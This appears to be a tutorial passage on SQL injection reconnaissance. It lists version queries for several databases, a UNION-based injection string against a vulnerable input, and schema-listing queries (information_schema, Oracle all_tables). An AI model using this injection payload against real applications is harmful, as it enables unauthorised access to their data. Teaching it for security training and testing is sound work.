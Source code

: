 # Examining the database

### Querying the database type and version

The queries to determine the database version for some popular database types are as follows:

```sql
Database type	Query
Microsoft,MySQL	SELECT @@version
Oracle		SELECT * FROM v$version
PostgreSQL	SELECT version()
```

For example, you could use a UNION attack with the following input: `' UNION SELECT @@version--`

***

### Listing the contents of the database

Most database types (**with the notable exception of Oracle**) have a set of views called the information schema which provide information about the database.

You can query information\_schema.tables to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

You can then query information\_schema.columns to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

#### Equivalent to information schema on Oracle

On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all\_tables:

```sql
SELECT * FROM all_tables
```

And you can list columns by querying all\_tab\_columns:

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

***
